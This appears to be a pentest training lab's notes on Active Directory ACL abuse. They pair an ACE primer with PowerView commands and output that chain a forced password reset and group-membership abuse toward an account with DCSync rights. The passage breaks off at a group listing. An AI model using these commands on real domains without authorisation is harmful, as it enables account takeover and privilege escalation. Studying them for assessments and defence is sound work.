










- ACL Abuse
- Primer
- ACL Enumeration
- ACL Abuse Tactics
- DCSync
- Introduction
- Attack Cycle
- Viewing Replication Privileges through ADSI Edit
- Viewing Group Membership
- Checking Replication Rights
- Extracting NTLM Hashes and Kerberos Keys using secretsdump.py
- Listing Hashes, Kerberos Keys, and Cleartext Passwords
- Enumerating Further
- Diplaying the Decrypted Password
- Performing the Attack with Mimikatz
ACL Abuse
Primer
ACL Overview
In their simplest form, ACLs are lists that define who has access to which asset/resource and the level of access they are provisioned. The settings themselves in an ACL are called Access Control Entries (ACEs). Each ACE maps back to a user, group, or process and defines the rights granted to that prinicpal. Every object has an ACL, but can have multiple ACEs because multiple security principals can access objects in AD. ACLs can also be used for auditing access within AD.
Two types of ACLs:
- Discretionary Access Control List (DACL): defines which security principals are granted or denied access to an object. DACLs are made up of ACEs that either allow or deny access. When someone attempts to access an object, the system will check the DACL for the level of access that is permitted. If a DACL does not exist for an object, all who attempt to access the object are granted full rights. If a DACL exists, but does not have any ACE entries specifying specific security settings, the system will deny access to all users, groups, or processes, attempting to access it.
- System Access Control List (SACL): allow administrators to log access attempts made to secured objects.
You see that ACL for the user account forend in the image below. Each item under Permission entries make up the DACL for the user account, while the individual entries are ACE entries showing rights granted over this user object to various users and groups.

The SACLs can be seen within the Auditing tab.

Access Control Entries (ACEs)
As stated previously, ACLs contain ACE entries that name a user or group and the level of access they have over a given securable object. There are three main types of ACEs that can be applied to all securable objects.
| ACE | Description |
|---|---|
| Access denied ACE | Used within a DACL to show that a user or group is explicitly denied access to an object. |
| Access allowed ACE | Used within a DACL to show that a user or group is explicitly granted access to an object. |
| System audit ACE | Used within a SACL to generate audit logs when a user or group attempts to access an object. It records whether access was granted or not and what type of access occured. |
Each ACE is made up of the following four components:
- The security identifier (SID) of the user/group that has access to the object
- A flag denoting the type of ACE
- A set of flags that specify whether or not child containers/objects can inherit the given ACE entry from the primary or parent object
- An access mask which is a 32-bit value that defines the rights granted to an object
You can view this graphically in AD Users and Computers. In the example image below, you can see the following for the ACE entry for the user forend.

- The security principal is Angela Dunn
- The ACE type is
Allow - Inheritance applies to the "This object and all descendant objects", meaning any child objects of the forend object would have the same permissions granted
- The rights granted to the object, again shown graphically in this example
When ACLs are checked to determine permissions, they are checked from top to bottom until an access denied is found in the list.
Importance of ACEs
Attackers utilize ACE entries to either further access or establish persistence. These can be great for you as pentesters as many organizations are unaware of the ACEs applied to each object or the impact that these can have if applied incorrectly. They cannot be detected by vulnerability scanning tools, and often go unchecked for many years, especially in large and complex environments. During an assessment where the client has taken care of all of the "low hanging fruit" AD flaws/misconfigs, ACL abuse can be a great way for you to move laterally/vertically and even achieve full domain compromise. Some example AD object security permissions are as follows. These can be enumerated using a tool such as BloodHound, and are full abusable with PowerView, among other tools:
ForcedChangePasswordabused withSet-DomainUserPasswordAdd Membersabused withSet-DomainGroupMemberGenericAllabused withSet-DomainUserPasswordorAdd-DomainGroupMemberGenericWriteabused withSet-DomainObjectWriteOwnerabused withSet-DomainObjectOwnerWriteDACLabused withAdd-DomainObjectACLAllExtendedRightsabused withSet-DomainUserPasswordorAdd-DomainGroupMemberAddSelfabused withAdd-DomainGroupMember
Read more about it here.

ACL Attacks in the Wild
You can use ACL attacks for:
- Lateral Movement
- Privilege Escalation
- Persistence
Some common attack scenarios may include:
| Attack | Description |
|---|---|
| Abusing forgot password permissions | Help Desk and other IT users are often granted permissions to perform password resets and other privileged tasks. If you can take over an account with these privileges, you may be able to perform a password reset for a more privileged account in the domain. |
| Abusing group membership management | It's also common to see Help Desk and other staff that have the right to add/remove users from a given group. It is always worth enumerating this further, as sometimes you may be able to add an account that you control into a privileged built-in AD group or a group that grants you some sort of interesting privilege. |
| Excessive user rights | You also commonly see user, computer, and group objects with excessive rights that a client is likely unaware of. This could occur after some sort of software install or some kind of legacy or accidental configuration that gives a user unintended rights. Sometimes you may take over an account that was given certain rights out of convenience or to solve a nagging problem more quickly. |
ACL Enumeration
Enumerating with PowerView
Find-InterestingDomainAcl
You can use PowerView to enumerate ACLs, but the task of digging through all of the results will be extremely time-consuming and likely inaccurate. For example, if you run the command Find-InterestingDomainAcl you will receive a massive amount of information back that you would need to dig through to make any sense of:
PS C:\htb> Find-InterestingDomainAcl
ObjectDN : DC=INLANEFREIGHT,DC=LOCAL
AceQualifier : AccessAllowed
ActiveDirectoryRights : ExtendedRight
ObjectAceType : ab721a53-1e2f-11d0-9819-00aa0040529b
AceFlags : ContainerInherit
AceType : AccessAllowedObject
InheritanceFlags : ContainerInherit
SecurityIdentifier : S-1-5-21-3842939050-3880317879-2865463114-5189
IdentityReferenceName : Exchange Windows Permissions
IdentityReferenceDomain : INLANEFREIGHT.LOCAL
IdentityReferenceDN : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security
Groups,DC=INLANEFREIGHT,DC=LOCAL
IdentityReferenceClass : group
ObjectDN : DC=INLANEFREIGHT,DC=LOCAL
AceQualifier : AccessAllowed
ActiveDirectoryRights : ExtendedRight
ObjectAceType : 00299570-246d-11d0-a768-00aa006e0529
AceFlags : ContainerInherit
AceType : AccessAllowedObject
InheritanceFlags : ContainerInherit
SecurityIdentifier : S-1-5-21-3842939050-3880317879-2865463114-5189
IdentityReferenceName : Exchange Windows Permissions
IdentityReferenceDomain : INLANEFREIGHT.LOCAL
IdentityReferenceDN : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security
Groups,DC=INLANEFREIGHT,DC=LOCAL
IdentityReferenceClass : group
<SNIP>
If you try to dig through all of this data during a time-boxed assessment, you will likely never get through it all or find anything interesting before the assessment is over. Now, there is a way to use a tool such as PowerView more effectively - by performing targeted enumeration starting with a user that you have control over.
Get-DomainObjectACL
Dig in and see if this user (wley) has any interesting ACL rights that you could take advantage of. You first need to get the SID of your target user to search effectively.
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> $sid = Convert-NameToSid wley
You can then use the Get-DomainObjectACL function to perform your targeted search. In the below example, you are using this function to find all domain objects that your user has rights over by mapping the user's SID using the $sid variable thing to the SecurityIdentifier property which is what tells you who has the given right over an object. One important thing to note is that if you search without the flag ResolveGUIDs, you will see results like the below, where the right ExtendedRight does not give you a clear picture of what ACE entry the user wley has over damundsen. This is because the ObjetAceType property is returning a GUID value that is not human readable.
Note that this command will take a while to run, especially in a large environment.
PS C:\htb> Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}
ObjectDN : CN=Dana Amundsen,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ObjectSID : S-1-5-21-3842939050-3880317879-2865463114-1176
ActiveDirectoryRights : ExtendedRight
ObjectAceFlags : ObjectAceTypePresent
ObjectAceType : 00299570-246d-11d0-a768-00aa006e0529
InheritedObjectAceType : 00000000-0000-0000-0000-000000000000
BinaryLength : 56
AceQualifier : AccessAllowed
IsCallback : False
OpaqueLength : 0
AccessMask : 256
SecurityIdentifier : S-1-5-21-3842939050-3880317879-2865463114-1181
AceType : AccessAllowedObject
AceFlags : ContainerInherit
IsInherited : False
InheritanceFlags : ContainerInherit
PropagationFlags : None
AuditFlags : None
Performing a Reverse Search & Mapping to a GUID Value
You could Google for the GUID value and uncover this page showing that the user has the right to force change the other user's password. Alternatively, you could do a reverse search using PowerShell to map the right name back th the GUID value.
PS C:\htb> $guid= "00299570-246d-11d0-a768-00aa006e0529"
PS C:\htb> Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
Name : User-Force-Change-Password
DisplayName : Reset Password
DistinguishedName : CN=User-Force-Change-Password,CN=Extended-Rights,CN=Configuration,DC=INLANEFREIGHT,DC=LOCAL
rightsGuid : 00299570-246d-11d0-a768-00aa006e0529
This gave you an answer, but would be highly inefficient during an assessment.
-ResolveGUIDs Flag
PowerView has the ResolveGUIDs flag, which does this very thing for you. Notice how the output changes when you include this flag to show the human-readable format of the ObjectAceType property as User-Force-Change-Password.
PS C:\htb> Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
AceQualifier : AccessAllowed
ObjectDN : CN=Dana Amundsen,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
ObjectAceType : User-Force-Change-Password
ObjectSID : S-1-5-21-3842939050-3880317879-2865463114-1176
InheritanceFlags : ContainerInherit
BinaryLength : 56
AceType : AccessAllowedObject
ObjectAceFlags : ObjectAceTypePresent
IsCallback : False
PropagationFlags : None
SecurityIdentifier : S-1-5-21-3842939050-3880317879-2865463114-1181
AccessMask : 256
AuditFlags : None
IsInherited : False
AceFlags : ContainerInherit
InheritedObjectAceType : All
OpaqueLength : 0
Get-Acl & Get-ADUser
Knowing how to perform this type of search without using a tool such as PowerView is greatly beneficial and could set you apart from your peers. You may be able to use this knowledge to achieve results when a client has you to work from one of their systems, and you are restricted down to what tools are readily available on the system without the ability to pull in any of your own.
This example is not very efficient, and the command can take a long time to run, especially in a large environment. It will take much longer than the equivalent command using PowerView. In this command, you've made a list of all domain users with the following command:
PS C:\htb> Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
You then read each line of the file using a foreach loop, and use the Get-Acl cmdlet to retrieve ACL information for each domain user by feeding each line of the ad_users.txt file to the Get-ADUser cmdlet. You then select just the Acess property, which will give you information about access rights. Finally, you set the IdentityReference property to the user you are in control of.
PS C:\htb> foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}
Path : Microsoft.ActiveDirectory.Management.dll\ActiveDirectory:://RootDSE/CN=Dana
Amundsen,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
InheritanceType : All
ObjectType : 00299570-246d-11d0-a768-00aa006e0529
InheritedObjectType : 00000000-0000-0000-0000-000000000000
ObjectFlags : ObjectAceTypePresent
AccessControlType : Allow
IdentityReference : INLANEFREIGHT\wley
IsInherited : False
InheritanceFlags : ContainerInherit
PropagationFlags : None
Once you have this data, you could follow the same methods shown above to convert the GUID to a human-readable format to understand what rights you have over the target user.
Further Enumeration of Rights
So, to recap, you started with the user wley and now have control over the user damundsen via the User-Force-Change-Password extended right. Use PowerView to hunt for where, if anywhere, control over the damundsen account could take you.
PS C:\htb> $sid2 = Convert-NameToSid damundsen
PS C:\htb> Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2} -Verbose
AceType : AccessAllowed
ObjectDN : CN=Help Desk Level 1,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ListChildren, ReadProperty, GenericWrite
OpaqueLength : 0
ObjectSID : S-1-5-21-3842939050-3880317879-2865463114-4022
InheritanceFlags : ContainerInherit
BinaryLength : 36
IsInherited : False
IsCallback : False
PropagationFlags : None
SecurityIdentifier : S-1-5-21-3842939050-3880317879-2865463114-1176
AccessMask : 131132
AuditFlags : None
AceFlags : ContainerInherit
AceQualifier : AccessAllowed
Now you can see that your user damundsen has GenericWrite privileges over the Help Desk Level 1 group. This means, among other things, that you can add any user to this group and inherit any rights that this group has applied to it. A search for rights conferred upon this group does not return anything interesting.
Look and see if this group is nested into any other groups, remembering that nested group membership will mean that any user in group A will inherit all rights of any group that group A is nested into. A quick search shows you that the Help Desk Level 1 group is nested into the Information Technology group, meaning that you can obtain any rights that the Information Technology group grants to its members if you just add yourself to the Help Desk Level 1 group where your user damundsem has GenericWrite privileges.
PS C:\htb> Get-DomainGroup -Identity "Help Desk Level 1" | select memberof
memberof
--------
CN=Information Technology,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
In summary:
- You have control over the user wley whose hash you retrieved earlier using Responder and cracked offline using Hashcat to reveal the cleartext password value
- You enumerated objects that the user wley has control over and fount that you could force change the password of the user damundsen
- From here, you found that the damundsen user can add a member to the Help Desk Level 1 group using GenericWrite privileges
- The Help Desk Level 1 group is nested into the Information Technology group, which grants members of that group any rights provisioned to the Information Technology group
Now look around and see if members of Information Technology can do anything interesting. Once again, doing your search using Get-DomainObectAcl shows you that members of the Information Technology group have GenericAll rights over the user adunn, which means you could:
- Modify group membership
- Force change a password
- Perform a targeted Kerberoasting attack and attempt to crakc the user's password if it is weak
PS C:\htb> $itgroupsid = Convert-NameToSid "Information Technology"
PS C:\htb> Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $itgroupsid} -Verbose
AceType : AccessAllowed
ObjectDN : CN=Angela Dunn,OU=Server Admin,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : GenericAll
OpaqueLength : 0
ObjectSID : S-1-5-21-3842939050-3880317879-2865463114-1164
InheritanceFlags : ContainerInherit
BinaryLength : 36
IsInherited : False
IsCallback : False
PropagationFlags : None
SecurityIdentifier : S-1-5-21-3842939050-3880317879-2865463114-4016
AccessMask : 983551
AuditFlags : None
AceFlags : ContainerInherit
AceQualifier : AccessAllowed
Finally, see if the adunn user has any type of interesting access that may be able to leverage to get closer to your goal.
PS C:\htb> $adunnsid = Convert-NameToSid adunn
PS C:\htb> Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $adunnsid} -Verbose
AceQualifier : AccessAllowed
ObjectDN : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
ObjectAceType : DS-Replication-Get-Changes-In-Filtered-Set
ObjectSID : S-1-5-21-3842939050-3880317879-2865463114
InheritanceFlags : ContainerInherit
BinaryLength : 56
AceType : AccessAllowedObject
ObjectAceFlags : ObjectAceTypePresent
IsCallback : False
PropagationFlags : None
SecurityIdentifier : S-1-5-21-3842939050-3880317879-2865463114-1164
AccessMask : 256
AuditFlags : None
IsInherited : False
AceFlags : ContainerInherit
InheritedObjectAceType : All
OpaqueLength : 0
AceQualifier : AccessAllowed
ObjectDN : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
ObjectAceType : DS-Replication-Get-Changes
ObjectSID : S-1-5-21-3842939050-3880317879-2865463114
InheritanceFlags : ContainerInherit
BinaryLength : 56
AceType : AccessAllowedObject
ObjectAceFlags : ObjectAceTypePresent
IsCallback : False
PropagationFlags : None
SecurityIdentifier : S-1-5-21-3842939050-3880317879-2865463114-1164
AccessMask : 256
AuditFlags : None
IsInherited : False
AceFlags : ContainerInherit
InheritedObjectAceType : All
OpaqueLength : 0
<SNIP>
The output above shows that your adunn user has DS-Replication-Get-Changes and DS-Replication-Get-Changes-In-Filtered-Set rights over the domain object. This means that this user can be leveraged to perform a DCSync attack.
Enumerating ACLs with BloodHound
Viewing Node Info

If you right-click on the line between the two objects, a menu will pop up. If you select Help, you will be presented with help around abusing this ACE, including:
- More info on the specific right, tools, and commands that can be used to pull off this attack
- Operational Securtiy considerations
- External references
Investigating ForceChangePassword Further

If you click on the 16 next to Transitive Object Control, you will see the entire path that you painstakingly enumerated above. From here, you could leverage the help menus for each edge to find ways to best pull off each attack.
Viewing Potential Attack Paths

Finally, you can use the pre-built queries in BloodHound to confirm that the adunn user has DCSync rights.
Viewing Pre-Built Queries

You've now enumerated these attack paths in multiple ways.
ACL Abuse Tactics
Abusing ACLs
Following the prior example, to perform the attack chain, you have to do the following:
- Use the wley user to change the password for the damundsen user
- Authenticate as the damundsen user and leverage GenericWrite rights to add a user that you control to the Help Desk Level 1 group
- Take advantage of nested group membership in the Information Technology group and leverage GenericAll rights to take control of the adunn user
So, first, you must authenticate as wley and force change the password of the user damundsen. You can start by opening a PowerShell console and authenticating as the wley user. Otherwise, you could skip this step if you were already running as this user. To do this, you can create a PSCredential object.
Creating a PSCredential Object
PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
Creating a SecureString Object
Next, you must create a SecureString object which represents the password you want to set for the target user damundsen.
PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
Changing a SecureString Object
Finally, you'll use the Set-DomainUserPassword PowerView function to change the user's password. You need to use the -Credential flag with the credential object you created for the wley user. It's best to alwyays specify the -Verbose flag to get feedback on the command completing as expected or as much information about errors as possible. You could do this from a Linux attack host using a tool such as pth-net, which is part of the pth-toolkit.
PS C:\htb> cd C:\Tools\
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'damundsen'
VERBOSE: [Set-DomainUserPassword] Password for user 'damundsen' successfully reset
You can see that the command completed successfully, changing the password for the target user while using the credentials you specified for the wley user that you control. Next, you need to perform a similar process to authenticate as the damundsen user and add yourself to the Help Desk Level 1 group.
Creating a SecureString Object
PS C:\htb> $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
Adding a User to a Group
Next, you can use the Add-DomainGroupMember function to add yourself to the target group. You can first confirm that your user is not a member of the target group.
PS C:\htb> Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
CN=Stella Blagg,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Marie Wright,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Jerrell Metzler,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Evelyn Mailloux,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Juanita Marrero,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Joseph Miller,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Wilma Funk,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Maxie Brooks,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Scott Pilcher,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Orval Wong,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=David Werner,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Alicia Medlin,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Lynda Bryant,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Tyler Traver,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Maurice Duley,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=William Struck,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Denis Rogers,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Billy Bonds,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Gladys Link,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Gladys Brooks,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Margaret Hanes,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Michael Hick,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
